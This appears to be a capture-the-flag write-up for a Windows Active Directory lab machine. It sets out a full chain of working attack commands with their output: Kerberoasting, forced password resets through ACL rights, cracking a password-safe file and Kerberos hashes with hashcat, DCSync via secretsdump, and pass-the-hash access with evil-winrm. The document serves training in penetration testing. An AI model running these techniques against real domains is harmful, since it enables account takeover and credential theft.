




If you're familiar with Windows boxes, this one is fairly straightforward as it follows classic exploitation paths.
## Summary
User: ACL-based privileges\
Root: ACL-based privileges, DCsync

## Enumeration
Using an Nmap scan, we can identify that this machine is an Active Directory Domain Controller.

$ nmap -Pn -p- 10.10.11.42 -v
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
52649/tcp open  unknown
59626/tcp open  unknown
59631/tcp open  unknown
59638/tcp open  unknown
59643/tcp open  unknown
59655/tcp open  unknown


We use ```bloodhound-python``` with the provided credentials ```Olivia:ichliebedich``` to gather information about the ```administrator.htb``` domain (added to our /etc/hosts file).\
We quickly identify that compromising Ethan's account will be necessary to perform a DCSync attack and retrieve the domain admin’s hash.


## User
### GenericWrite, Olivia -> Michael

To compromise Ethan's account, we first need to compromise Emily's account, which has ```GenericWrite``` privileges over Ethan.

As shown above, there is no direct path to Emily's account.


We’ll focus on the access rights of our initial user, Olivia.\
She has ```GenericAll``` privileges over Michael, so we’ll perform a targeted Kerberoast attack to retrieve his hash.\
Since the hash couldn’t be cracked, we used Olivia’s privileges to force a password change for Michael's account.

$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'olivia' -p 'ichliebedich'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (michael)
[+] Printing hash for (michael)
$krb5tgs$23$*michael$ADMINISTRATOR.HTB$administrator.htb/michael*$64da<...>d
[VERBOSE] SPN removed successfully for (michael)

$ net rpc password "michael" "michael_pass" -U "administrator.htb"/"olivia"%"ichliebedich" -S "administrator.htb"


### ForceChangePassword, Michael -> Benjamin
Continuing our enumeration in BloodHound, we notice that Michael has the ability to change the password of Benjamin.
We use the same command as previously to perform the password change.


$ net rpc password "benjamin" "benjamin_pass" -U "administrator.htb"/"michael"%"michael_pass" -S "administrator.htb"


Benjamin is a member of the ```SHARE MODERATORS``` group.

We don’t find anything interesting on the SMB shares, but on the FTP server we discover a file named ```Backup.psafe3```.
We download it and crack its password using Hashcat.

### FTP et Backup.psafe3

$ ftp benjamin@10.10.11.42
<...>
ftp> ls
229 Entering Extended Passive Mode (|||50350|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> mget backup.psafe3
mget Backup.psafe3 [anpqy?]? yes
229 Entering Extended Passive Mode (|||50354|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************|   952       56.85 KiB/s    00:00 ETA
226 Transfer complete.
<...>
ftp> exit
221 Goodbye.

$ hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
<...>
Backup.psafe3:<...>                                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Hash.Target......: Backup.psafe3
Time.Started.....: Sat Apr 19 20:18:43 2025 (1 sec)
Time.Estimated...: Sat Apr 19 20:18:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    23899 H/s (6.93ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:2048-2049
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 60%

Started: Sat Apr 19 20:18:42 2025
Stopped: Sat Apr 19 20:18:45 2025

We use this password to open the file with ```pwsafe``` and retrieve Emily's password.

$ pwsafe Backup.psafe3



We notice in BloodHound that Emily has access to the machine, so we gain access to it using ```evil-winrm``` and retrieve the user.txt file.\


$ evil-winrm -i 10.10.11.42 -u emily -p U<...>b
<...>
*Evil-WinRM* PS C:\Users\emily\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\emily\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         4/19/2025   3:02 PM             34 user.txt


## Root
### GenericWrite, Emily -> Ethan

As previously mentionned, Emily has ```GenericWrite``` privileges over Ethan, and, Ethan has DCSync rights.\
First, we retrieve Ethan’s hash and crack it using Hashcat.


$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'U<...>b'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7
[VERBOSE] SPN removed successfully for (ethan)

$ hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
<...>
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7:l<...>t
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....9cb327
Time.Started.....: Sat Apr 19 20:39:25 2025 (0 secs)
Time.Estimated...: Sat Apr 19 20:39:25 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   641.4 kH/s (0.52ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 71%

Started: Sat Apr 19 20:39:24 2025
Stopped: Sat Apr 19 20:39:27 2025


### DCSync
Then, we perform a DCSync attack using the recovered password with ```secretsdump```.


$ ./secretsdump.py 'administrator.htb'/'ethan':'l<...>t'@'administrator.htb'
<...>
Administrator:500:a<...>e>:3<...>e:::
<...>
[*] Cleaning up...

Now, we can use ```evil-winrm``` to gain access to the Domain Controller using the administrator's NTHASH.

$ evil-winrm -i 10.10.11.42 -u administrator -H 3<...>e
<...>
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/19/2025   6:52 PM             34 root.txt

